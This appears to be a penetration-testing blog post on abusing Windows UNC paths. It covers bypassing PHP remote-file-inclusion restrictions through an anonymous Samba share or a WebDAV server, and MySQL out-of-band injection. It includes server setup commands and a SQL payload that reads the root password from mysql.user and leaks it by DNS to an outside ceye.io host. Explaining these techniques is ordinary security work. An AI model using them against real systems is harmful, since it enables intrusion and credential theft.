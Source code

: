 ```yaml
---
layout: post
title: Application scenarios for The Microsoft Windows UNC in Pentest
comments: false
description: ""
keywords: ""
---
```


# The Microsoft Windows UNC

The Microsoft Windows **UNC**, short for **Universal Naming Convention** or **Uniform Naming Convention**, specifies a common syntax to describe the location of a network resource, such as a shared file, directory, or printer. The UNC syntax for Windows systems has the generic form:

```
\\ComputerName\SharedFolder\Resource
```

Some Microsoft Windows interfaces also allow or require UNC syntax for **WebDAV** share access, rather than a URL. The UNC syntax is extended with optional components to denote use of SSL and TCP/IP port number, a WebDAV URL of `http[s]://HostName[:Port]/SharedFolder/Resource` becomes:

```
\\HostName[@SSL][@Port]\SharedFolder\Resource
```

# Vul1: Exploiting RFI in PHP Bypass Remote URL Inclusion Restriction 

## Overview

Via. [http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

A few days ago, there's an article on Twitter about exploiting remote file inclusion (RFI) in PHP application and bypassing remote URL inclusion restriction. This is a perfect trick.

In PHP Configuration file, **allow_url_include** wrapper by-default set to "Off" which instruct PHP not to load remote HTTP or FTP URLs  and hence prevent Remote File Inclusion attack. But, PHP does not block SMB URL loading even if  "allow_url_include" and "allow_url_fopen" both are set to "Off". 

This trick exploits Windows **UNC**'s characteristics. Attack chain: `UNC->SMB->DATA`.

In addition to SMB, you can also use unauthorized WebDAV.

## SMB

Configuring the Samba Server with anonymous read access (Linux Machine).

In Kali Linux, install the Samba using the following commands:

```
apt-get install samba
```

Create SMB share directory:

```
mkdir /var/www/html/pub/
```

Configure permissions on newly created SMB share directory:

```
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
```

Run below mentioned command to remove default content of SAMBA server config file:

```
echo > /etc/samba/smb.conf
```

Put below mentioned content in file `/etc/samba/smb.conf`:

```
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[ethan]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Now, restart Samba Server to apply new configuration spcified in config file `/etc/samba/smb.conf `:

```
service smbd restart
```

Once SAMBA server has been restarted successfully, try to access SMB 
share and make sure SAMBA server is not asking for credentials:

```
\\192.168.0.111\ethan\filename
```

## WebDAV

Start a WebDAV service with Docker:

Use [https://github.com/BytemarkHosting/docker-webdav](https://github.com/BytemarkHosting/docker-webdav). Just put the result file in `/root/WebDAV/data`, but username and password are necessary. :(

```
docker run -v /root/webdav:/var/lib/dav -e USERNAME=admin -e PASSWORD=admin -p 8000:80 --rm --name webdav bytemark/webdav
```

Use [https://github.com/idelsink/webdav-docker](https://github.com/idelsink/webdav-docker). 

```
docker run --name=webdav -d -v /root/webdav:/webdav -p 8000:80 idelsink/webdav
```

The WebDAV client of Windows relies on the Webclient Service (Default opening). If you want to access the WebDAV Service through UNC, you have to start the service first.

Notice: The webclient of windows will change the path of requesting WebDAV to uppercase, while Apache defaults to case-sensitive when matching paths. It discovered by log file. The uppercase path is blocked directly and returned to 403. 

You can use pure digital paths and file names to solve this problem.

# Vul2: MySQL OOB Injection

## Overview

Via. [https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking)

**Out-of-band injection** involve in alternative channels to extract data from the server. It might be **HTTP(S)** requests, **DNS** resolutions, file systems, E-mails, etc depending on the functionality of the back-end technology.

From the Payloads provided by CEYE, it can be seen that OOB injection is very well researched in MSSQL and Oracle. But in MySQL and PostgreSQL, it is limited. The payload provided by CEYE for MySQL is: 

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

You can see that there are a lot of backslashes `\`.

Notice: This also exploits Windows **UNC**'s characteristics.

## Limitations

This option sets the **secure_file_priv** system variable, which is used to limit the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT ... INTO OUTFILE` statements and the `LOAD_FILE()` function. Refer to the link: [https://dev.mysql.com/doc/refman/5.7/en/server-options.html](https://dev.mysql.com/doc/refman/5.7/en/server-options.html)

| Property                     | Value                           |
| ---------------------------- | ------------------------------- |
| **Command-Line Format**      | `--secure-file-priv=dir_name`   |
| **System Variable**          | `secure_file_priv`              |
| **Scope**                    | Global                          |
| **Dynamic**                  | No                              |
| **Type**                     | String                          |
| **Default Value** (>= 5.7.6) | **platform specific**           |
| **Default Value** (<= 5.7.5) | **empty string**                |
| **Valid Values** (>= 5.7.6)  | **empty string, dirname, NULL** |
| **Valid Values** (<= 5.7.5)  | **empty string, dirname**       |
